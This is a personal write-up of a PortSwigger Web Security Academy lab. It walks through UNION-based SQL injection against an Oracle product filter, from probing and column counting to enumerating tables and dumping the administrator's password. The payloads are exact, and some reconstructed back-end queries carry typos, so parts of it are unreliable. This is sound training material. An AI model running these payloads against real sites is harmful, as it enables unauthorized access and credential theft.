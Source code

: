 # Lab: SQL Injection Attack 

- sqli: product category fillter
- end goal:  log in as the administrator user

### Analysis
- url: `https://0ab4004003e41eed88c2ed560098006d.web-security-academy.net/`

- front-end: `/filter?category=Pets`
- back-end:
```sql
select * from product where category = 'Pets' ans released = 1
```

- check sqli vulnerability
- front-end: `/filter?category=Pets'`
- back-end:
```sql
select * from product where category = 'Pets'' ans released = 1
'-- 500 Internal Server Error 
```

- front-end: `/filter?category=Pets'--`
- back-end:
```sql
select * from product where category = 'Pets'--' ans released = 1
-- 200 OK: oracle database
```

- determine how many columns 
- front-end: `/filter?category=Pets' order by2--`
- back-end:
```sql
select * from product where category = 'Pets' order by 2--' ans released = 1
-- 200 OK: contain 2 columns
```

- determine data type of the columns 
- front-end: `/filter?category=Pets' union select 'a', 'a' from dual--`
- back-end:
```sql
select * from product where category = 'Pets'' union select 'a', 'a' from dual-- ans released = 1
'-- 200 OK: both columns are text
```

- display the database version 
- front-end: `/filter?category=Pets' union select banner, null from v$version--`
- back-end:
```sql
select * from product where category = 'Pets'' union select banner, null from v$version-- ans released = 1
'-- 200 OK: Oracle Database 11.2.0.2.0
```

- output the list of tables in the database
- front-end: `/filter?category=Pets' union select table_name, null from all_tables--`
- back-end:
```sql
select * from product where category = 'Pets'' union select table_name, null from all_tables--
'-- 200 OK: table name: USERS_BMPJSO
```

- output the columns of the users table
- front-end: `/filter?category=Pets' union select column_name, null from all_tab_columns where table_name= 'USERS_BMPJSO'--`
- back-end:
```sql
select * from product where category = 'Pets'' union select table_name, null from all_tables--
'-- 200 OK: column name: USERNAME_XTEEQM
-- column name: PASSWORD_CGTCHV  
```

- output usernames and passwords
- front-end: `/filter?category=Pets' union select USERNAME_XTEEQM, PASSWORD_CGTCHV from USERS_BMPJSO--`
- back-end:
```sql
select * from product where category = 'Pets'' union select USERNAME_XTEEQM, PASSWORD_CGTCHV from USERS_BMPJSO--
'-- 200 OK: username: administrator
-- password: fliavnpnhzwifdrtgvht  
```
- login as administrator account
- Congratulations, you solved the lab!

---

**SQL Lab:** https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle
